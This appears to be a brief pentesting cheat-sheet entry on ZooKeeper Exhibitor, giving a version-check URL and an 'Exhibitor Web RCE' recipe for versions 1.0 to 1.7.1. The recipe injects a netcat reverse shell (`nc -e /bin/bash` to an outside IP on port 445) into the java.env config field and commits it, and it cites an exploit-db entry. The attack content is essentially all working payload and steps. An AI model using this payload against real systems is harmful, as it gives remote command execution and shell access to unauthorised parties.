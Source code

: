 # zookeeper exhibitor

## version check

```
- /exhibitor/v1/ui/index.html
```

## Exhibitor Web RCE

v1.0 | 1.7.1

```
# Under Config tab > Editing: ON
# add to java.env script: $(nc -e /bin/bash 192.168.49.99 445 &)
# Commit > All at once

https://www.exploit-db.com/exploits/48654
```
